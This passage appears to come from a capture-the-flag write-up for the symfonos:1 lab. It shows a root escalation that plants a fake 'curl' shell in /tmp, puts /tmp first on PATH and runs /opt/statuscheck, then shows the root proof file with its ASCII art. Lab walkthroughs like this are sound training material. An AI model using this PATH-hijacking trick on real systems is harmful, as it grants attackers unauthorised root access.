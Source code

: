 

```console
cd /tmp
echo "/bin/sh" > curl
chmod 777 curl
echo $PATH
export PATH=/tmp:$PATH
/opt/statuscheck
```

---


### **Flag**
---
```console
cd /root
ls
proof.txt
cat proof.txt

	Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
((( ))            / ~~    \ /~      __--~~  --~~  __/~  _-~ /
 ((\~\           |    )   | '      /        __--~~  \-~~ _-~
    `\(\    __--(   _/    |'\     /     --~~   __--~' _-~ ~|
     (  ((~~   __-~        \~\   /     ___---~~  ~~\~~__--~ 
      ~~\~~~~~~   `\-~      \~\ /           __--~~~'~~/
                   ;\ __.-~  ~-/      ~~~~~__\__---~~ _..--._
                   ;;;;;;;;'  /      ---~~~/_.-----.-~  _.._ ~\     
                  ;;;;;;;'   /      ----~~/         `\,~    `\ \        
                  ;;;;'     (      ---~~/         `:::|       `\\.      
                  |'  _      `----~~~~'      /      `:|        ()))),      
            ______/\/~    |                 /        /         (((((())  
          /~;;.____/;;'  /          ___.---(   `;;;/             )))'`))
         / //  _;______;'------~~~~~    |;;/\    /                ((   ( 
        //  \ \                        /  |  \;;,\                 `   
       (<_    \ \                    /',/-----'  _> 
        \_|     \\_                 //~;~~~~~~~~~ 
                 \_|               (,~~   
                                    \~\
                                     ~~

	Contact me via Twitter @zayotic to give feedback!


```

---